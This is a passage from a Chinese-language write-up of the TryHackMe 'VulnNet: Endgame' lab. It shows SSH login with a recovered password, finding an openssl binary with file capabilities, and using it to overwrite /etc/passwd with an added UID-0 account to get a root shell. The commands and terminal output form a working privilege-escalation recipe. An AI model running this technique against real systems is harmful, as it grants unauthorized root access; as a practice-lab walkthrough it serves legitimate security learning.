 成功获得

    Website:   https://tryhackme.com
    Username: 'chris_w@vulnnet.thm'
    Password: '8y7TK*******BYhwsb'

## 横向移动

尝试使用这一个密码登录system：

    ssh system@10.10.70.55

    system@vulnnet-endgame:~$ cat ./user.txt

成功登录

## openssl任意文件读写

枚举：

    system@vulnnet-endgame:~$ getcap -r / 2>/dev/null
    /home/system/Utils/openssl =ep

尝试openssl任意文件读写：

    system@vulnnet-endgame:~$ echo "hack" | /home/system/Utils/openssl enc -out /etc/passwd

<pre><font color="#47D4B9"><b>system@vulnnet-endgame</b></font>:<font color="#277FFF"><b>~</b></font>$ cat /etc/passwd
hack
</pre>

成功

我们可以添加root权限的账户进去并登录

首先使用openssl passwd生成密码hash

    openssl passwd -1 -salt hack 1q2w3e4r
    $1$hack$eu7wA.3faDMt9Z2srODT9/

组装：

    sugo:$1$hack$eu7wA.3faDMt9Z2srODT9/:0:0:root:/root:/bin/bash

备份passwd并写入，使用openssl串改/etc/passwd内容为备份的passwd

<pre><font color="#47D4B9"><b>system@vulnnet-endgame</b></font>:<font color="#277FFF"><b>~</b></font>$ cp /etc/passwd /tmp/passwd.bak
<font color="#47D4B9"><b>system@vulnnet-endgame</b></font>:<font color="#277FFF"><b>~</b></font>$ echo &apos;sugo:$1$hack$eu7wA.3faDMt9Z2srODT9/:0:0:root:/root:/bin/bash&apos; &gt;&gt; /tmp/passwd.bak 
<font color="#47D4B9"><b>system@vulnnet-endgame</b></font>:<font color="#277FFF"><b>~</b></font>$ cat /tmp/passwd.bak | /home/system/Utils/openssl enc -out /etc/passwd</pre>

<pre><font color="#47D4B9"><b>system@vulnnet-endgame</b></font>:<font color="#277FFF"><b>~</b></font>$ su sugo
Password: 
root@vulnnet-endgame:/home/system# 
</pre>
